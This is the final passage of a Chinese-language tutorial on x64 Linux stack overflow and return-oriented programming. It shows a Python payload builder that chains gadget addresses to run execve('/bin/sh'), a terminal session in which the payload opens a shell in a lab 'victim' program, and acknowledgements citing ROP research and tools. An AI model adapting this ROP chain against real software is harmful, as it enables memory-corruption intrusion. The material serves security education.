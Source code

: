     print "\x00"*72 + \
        long2bytes(0x4003f2) + \
        long2bytes(0x4018ed) + \
        long2bytes(0x487318) + \
        "/bin/sh\x00" + \
        long2bytes(0x431b3d) + \
        long2bytes(0x00003b) + \
        long2bytes(0x4333d9) + \
        long2bytes(0x000000) + \
        long2bytes(0x000000) + \
        long2bytes(0x43d371)

现在可以实施攻击了：


    $ python gen-shellcode.py > shellcode
    $ cat shellcode - | ./victim
    What's your name?Hello, 1804289383!
    ls
    gen-shellcode.py  shellcode  victim  victim.c
    mkdir xxx
    ls
    gen-shellcode.py  shellcode  victim  victim.c xxx

可以看出终端被成功打开，ls 和 mkdir 命令都可以运行。


### 5. 致谢

感谢 jip 的文章 [Stack Smashing On A Modern Linux System](https://www.exploit-db.com/exploits/24085/) 和 Ben Lynn 的文章 [64-bit Linux Return-Oriented Programming](http://crypto.stanford.edu/~blynn/rop/) ，他们的文章系统的介绍了 Linux（x64）下的栈溢出攻击和防护方法。

感谢 Erik Buchanan, Ryan Roemer 和 Stefan Savage 等人对 ROP 做出的非凡的工作：[Return-Oriented Programming: Exploits Without Code Injection](http://cseweb.ucsd.edu/~hovav/talks/blackhat08.html) ，ROP 攻击几乎无法阻挡，强大之中又蕴涵着优雅的美感，就像风清杨教给令狐冲的独孤九剑。

感谢 JonathanSalwan 编写的 [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) ，他的工具让搜索 gadgets 的工作变得简单无比。
